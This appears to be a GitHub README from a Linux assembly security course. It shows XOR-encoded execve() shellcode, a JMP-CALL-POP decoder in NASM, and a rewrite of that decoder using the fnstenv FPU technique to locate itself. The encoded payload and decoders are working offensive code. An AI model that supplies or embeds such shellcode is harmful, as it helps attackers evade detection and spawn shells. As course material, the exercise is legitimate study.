

# SLAE-FPU_Instructions_Rewrite
Using FPU instructions rewriting the XOR decoder assembly in SLAE course

The orginal execve() shellcode that's been XOR encoded with 0xAA value
---

```
0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

The XOR decoder nasm 
---
```
; Filename: xor-decoder.nasm
global _start			

section .text
_start:

	jmp short call_decoder

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25


decode:
	xor byte [esi], 0xAA
	inc esi
	loop decode

	jmp short Shellcode


call_decoder:

	call decoder
	Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
This XOR decoder using JMP-CALL-POP technique to get the address of the shellcode and decoding with 0xAA.

Rewriting this with FPU instructions
---
```
; Filename: fpu-xor-decoder.nasm

global _start			

section .text
_start:
	
	xor ecx, ecx
	mov cl, 25
	fldpi
	fnstenv [esp-0xc]
	pop esi

decode:

	xor byte [esi+0x10], 0xAA
	inc esi
	loop decode
	
	jmp short Encoded

Shellcode:
	Encoded: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
FPU Instructions:
- fnstenv will store the address of last FPU instructions onto the destination

In our case fnstenv will store the environments at esp-0xc, which will luckily allow us to get the instruction pointer at address of esp after fnstenv instruction.

Refer to: 

According to Intel FPU state image in momery, the instruction pointer offset is at the position of third double word. 
pop esi will get the address of fldpi

Figuring out the number of byte from fldpi to Encoded shellcode will be our last step. 


